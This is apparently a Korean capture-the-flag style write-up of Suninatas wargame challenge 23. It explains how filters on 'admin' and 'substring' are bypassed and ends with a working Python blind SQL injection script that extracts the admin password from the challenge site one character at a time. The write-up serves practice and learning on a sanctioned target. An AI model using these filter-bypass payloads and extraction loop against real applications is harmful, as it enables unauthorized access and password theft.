 ```yaml
---
title: "Suninatas 23 Write up"
categories: Web
tags: [blindsqli, wargame]
---
```


Suninatas 23 Write-Up
---------------------

## 문제 분석

이번 문제의 경우 이전 22번 문제에서 변형된 문제로 admin이라는 단어가 필터링에 추가됨과 동시에
substring과 같이 blind SQL Injection에 있어서 중요한 keyword들이 필터링 되었습니다.

![Suninatas_23_Main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_23_main.png?raw=true)

문제의 풀이 조건의 경우 이전 문제와 동일하였습니다. 이번 문제의 핵심은 admin 문자와 substring과 같은
 keyword를 대체할 방법을 찾는 것이었습니다.

* * *

## 문자열 우회

먼저 admin 문자열을 우회하는 방법에 대하여 찾아보았습니다. 우회 방법을 찾을 때 0x나 chr과 같은 keyword의 경우 필터링 되어 있기 때문에 ascii code와 같은 방식은 제외하고 찾아보았습니다.

가장 먼저 시도해본 방법은 concat 함수를 이용한 방법이었습니다. concat 함수의 경우 문자열을 합칠 수 있는 함수로 mysql에서 사용 가능한 함수이나 결과값을 얻을 수 없었습니다. 이후에 풀이를 보고 알았지만 문제 시스템이 mssql로 구성되어 있었다고 합니다.

다음으로 시도하였던 방법은 +를 이용한 우회였습니다. 이는 mssql에서 사용 가능한 우회였으나 이를 사용하여 시도하였음에도 실패한 이유를 분석한 결과 쿼리를 시도할 때 url에 직접 입력하였는데 이 과정에서 + 문자가 url encoding에서 공백을 의미하는 +로 사용되어 발생한 문제로 판단되었습니다. login form에서 시도하였을 때는 정상적으로 동작하는 것을 확인할 수 있었습니다.

* * *

## substring 우회

admin을 우회하는 것에 성공하였기에 다음으로는 substring을 대체할 방법이 필요하였습니다. substring을 
대체할 수 있는 방법으로 left와 right 함수를 이용한 방법이 있단 것을 알 수 있었으나 풀이를 통해 알게 
된 사실은 Query가 30자가 넘게 될 경우 SQL Injection으로 판단하여 차단된다는 것이었습니다.

따라서 30자가 넘지 않도록 Query문을 구성할 필요가 있었기에 제약 사항이 많았습니다. 결과적으로 
left 함수로 받아온 문자열을 right 함수를 이용하여 가장 맨 끝 글자를 가져와 비교하는 식으로 코드를 작성하게 되었습니다.

``` python
#!/usr/bin/python

import requests as req

url = "http://suninatas.com/challenge/web23/web23.asp"
cookies = { "ASP.NET_SessionId":"xn25l4eqiwhk1zdpvf54polm" }
maxpw = 15
pwlen = 0
pw = ""
params = { "pw":"SQLi" }

for a in range(1, maxpw+1):
    params["id"] = "adm'+'in' and len(pw)={}--".format(a)
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            print("Password Length is {}".format(a))
            pwlen = a
            break

for i in range(32, 128):
    params["id"] = "adm'+'in' and left(pw,1)='{}'--".format(chr(i))
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
        pw = chr(i)
        break

for i in range(1, pwlen+1):
    for j in range(32, 128):
        params["id"] = "'or right(left(pw,{}),1)='{}'--".format(i, chr(j))
        response = req.get(url, cookies = cookies, params = params)
        print("admin password is {}{}".format(pw, chr(j)), end='\r')
        if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            if i == 1:
                continue
            pw += chr(j)
            break
        
print("admin password is {}".format(pw))
```
